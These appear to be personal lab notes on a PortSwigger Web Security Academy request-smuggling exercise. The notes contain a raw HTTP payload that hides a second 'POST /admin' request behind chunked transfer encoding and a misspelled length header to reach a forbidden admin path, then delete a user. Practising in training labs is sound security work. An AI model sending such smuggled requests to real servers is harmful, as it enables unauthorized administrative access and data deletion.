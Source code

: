 
1. Try to access the admin path

![[Pasted image 20231201131527.png]]

2. Notice that the `/admin` path is forbidden;
3. Send the following request;

![[Pasted image 20231201132658.png]]

```http

POST / HTTP/1.1
Host: 0a2f00e2038e6fc281f22f8500760033.web-security-academy.net
Content-Legnth: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

4. Send the following request to delete the carlos user;

![[Pasted image 20231201135653.png]]

![[Pasted image 20231201135705.png]]

